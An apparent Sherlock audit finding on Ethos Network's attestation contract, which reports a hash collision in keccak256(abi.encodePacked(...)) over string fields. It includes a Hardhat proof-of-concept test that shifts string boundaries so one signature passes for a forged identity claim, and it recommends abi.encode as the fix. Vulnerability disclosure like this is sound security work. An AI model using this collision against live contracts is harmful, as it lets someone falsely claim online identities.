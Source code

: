 Square Pistachio Unicorn

High

# createAttestation: Hash collision due to abi.encodePacked

### Summary

`createAttestation` uses the functions: `_keccakForCreateAttestation` and `getServiceAndAccountHash`, which both apply `keccak256` to `abi.encodePacked` output. Both functions accept strings as their input parameters, as such when `abi.encodePacked` concatenates them, there is an ambiguity where one string ends and starts.

### Root Cause

https://github.com/sherlock-audit/2024-10-ethos-network/blob/main/ethos/packages/contracts/contracts/EthosAttestation.sol#L521

```sol
return keccak256(abi.encodePacked(profileId, randValue, account, service, evidence));
```

Thus it is possible to "move" the string values, while still generating the same hash output (and same valid `signature`)

```js
'real_user' + 'discord.com' + 'discord.com/my_evidence_url'
==
'real_userdiscord.com' + 'discord.com' + '/my_evidence_url'

or

'real_user' + 'spacex.com' + 'spacex.com/my_evidence_url'
==
'real_userspace' + 'x.com' + 'spacex.com/my_evidence_url'
```


### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

_No response_

### Impact

- Profile owner can claim digital identities he does not own.
Supported online platforms, and their naming in the system, will affect exploitability.

### PoC

```js
// EthosAttestation.test.ts
it.only('hash_collision', async () => {
  const {
    OWNER,
    PROFILE_CREATOR_0,
    ethosProfile,
    ethosAttestation,
    EXPECTED_SIGNER,
  } = await loadFixture(deployFixture);

  await ethosProfile.connect(OWNER).inviteAddress(PROFILE_CREATOR_0.address);
  await ethosProfile.connect(PROFILE_CREATOR_0).createProfile(1);

  const creator0profileId = String(
    await ethosProfile.profileIdByAddress(PROFILE_CREATOR_0.address),
  );

  const randValue = '123';

  const signature = await common.signatureForCreateAttestation(
    creator0profileId,
    randValue,
    'real_user',
    'discord.com',
    'discord.com/my_evidence_url',
    EXPECTED_SIGNER,
  );

  await
    ethosAttestation
      .connect(PROFILE_CREATOR_0)
      .createAttestation(
        creator0profileId,
        randValue,
        { account: 'real_userdiscord.com', service: 'discord.com' }, // bug : should fail
        '/my_evidence_url',
        signature,
      );
});
```

### Mitigation

Use `abi.encode`.